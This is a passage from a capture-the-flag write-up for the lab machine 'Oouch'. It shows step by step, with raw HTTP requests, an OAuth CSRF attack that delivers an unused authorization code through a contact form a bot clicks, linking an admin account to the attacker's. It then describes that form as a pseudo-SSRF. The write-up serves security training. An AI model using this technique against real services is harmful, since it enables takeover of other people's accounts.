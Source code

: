         GET /oauth/authorize/?client_id=UDBtC8HhZI18nJ53kJVJpXp4IIffRhKEXZ0fSd82&response_type=code&redirect_uri=http://consumer.oouch.htb:5000/oauth/connect/token&scope=read HTTP/1.1
        Host: authorization.oouch.htb:8000
        ...
        ```
    3. The attacker confirms the authorization by clicking the Authorize button (http://authorization.oouch.htb:8000/oauth/authorize/)
        ```
        POST /oauth/authorize/?client_id=UDBtC8HhZI18nJ53kJVJpXp4IIffRhKEXZ0fSd82&response_type=code&redirect_uri=http://consumer.oouch.htb:5000/oauth/connect/token&scope=read HTTP/1.1
        Host: authorization.oouch.htb:8000
        ...

        csrfmiddlewaretoken=VoAxj1ao7mvIrvJDGPCTyB2x6Rq6KEwWWeFwFjEjArMsd2UkWwry6m8hxn737ia2&redirect_uri=http%3A%2F%2Fconsumer.oouch.htb%3A5000%2Foauth%2Fconnect%2Ftoken&scope=read&client_id=UDBtC8HhZI18nJ53kJVJpXp4IIffRhKEXZ0fSd82&state=&response_type=code&allow=Authorize
        ```
        ![](https://i.imgur.com/0DNEDdp.png)
    4. The provider site responds with the redirect URL which contains the authorization code in the code parameter (Authorization Grant)
        ```
        GET /oauth/connect/token?code=Srwh8xkKLMf1VDre8HmqGieVQ1aY1C HTTP/1.1
        Host: consumer.oouch.htb:5000
        ...
        ```
    5. Here, the attacker **DOES NOT** follow the redirection (_Drop_ instead of _Forward_ in Burp).
8. Instead the attacker copies the Authorization Grant URL and send it to the administrator via the contact form (pseudo-SSRF that we'll see just after).
    ```
    POST /contact HTTP/1.1
    Host: oouch.htb:5000
    ...

    csrf_token=IjQ0ZTk3YTcxZTJkMTUzMjdkODBmZWJlOTk3MWVhNjFlNDQ3YThkMTIi.XvuH3Q.BYECgUUU9-nRB3hYE9dOPPi_4dA&textfield=http%3A%2F%2Fconsumer.oouch.htb%3A5000%2Foauth%2Fconnect%2Ftoken%3Fcode%3DSrwh8xkKLMf1VDre8HmqGieVQ1aY1C&submit=Send
    ```
9. The victim follows the link and requests the Authorization Grant URL, and by doing so gives authorization to the Attacker to have full authorized access to Victim's account on Consumer Site.
10. The attacker waits a minute and goes back to the oAuth connect URL (http://consumer.oouch.htb:5000/oauth/login) and Authorize.
11. The attacker goes back to the profile page on consumer site and checks the account username is now `qtc`.
    ![](https://i.imgur.com/Fq2UGfd.png)

### SSRF

If you paste an URL in the contact form, someone will click on it (a bot).
So this gives us a pseudo-SSRF (in a phishing way).

![](https://i.imgur.com/fb8jU8m.png)
